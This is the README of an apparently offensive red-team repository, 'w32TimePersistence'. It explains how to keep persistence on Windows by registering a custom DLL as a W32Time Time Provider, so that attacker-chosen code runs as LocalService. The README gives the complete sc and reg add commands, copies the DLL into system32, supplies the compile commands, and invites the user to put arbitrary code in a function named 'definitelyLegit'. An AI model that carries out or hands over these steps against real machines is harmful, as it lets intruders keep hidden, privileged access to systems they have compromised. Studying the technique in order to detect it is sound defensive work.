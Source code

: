 # w32TimePersistence

Windows high-privilege persistence technique that consists in adding a new Time Provider and writing a custom DLL based off of [this](https://learn.microsoft.com/en-us/windows/win32/sysinfo/sample-time-provider) Sample Time Provider DDL template from Microsoft to execute code as the `LocalService` user.

To read a more in-depth analysis of this technique read [this](https://otter.gitbook.io/red-teaming/articles/gaining-persistence-on-windows-with-time-providers) article ʕ •ᴥ•ʔ

## Usage
To use this technique, put whatever code you want to execute inside the `definitelyLegit` function in the [library.cpp](https://github.com/otterpwn/w32TimePersistence/blob/main/library.cpp) file, compile the DLL and perform the following steps

1. Stop the w32time service
2. Add a registry entry for a new Time Provider pointing the DllName key to our DLL
3. Enable the new Time Provider and set it as a input Time Provider
4. Copy our DLL into the desired location
5. Start the process up again

```
sc stop w32time

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\w32TimePersistence.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_DWORD /v "InputProvider" /d "1" /f

copy w32TimePersistence.dll C:\windows\system32\

sc start w32time
```

## How to compile
Start the Developer Command Prompt for Visual Studio and compile with the following commands
```
mkdir build
cd build
cl /D_USRDLL /D_WINDLL ..\library.cpp ..\library.def /MT /link /DLL /OUT:w32TimePersistence.dll
```

Watch the GIF below to see the full attack
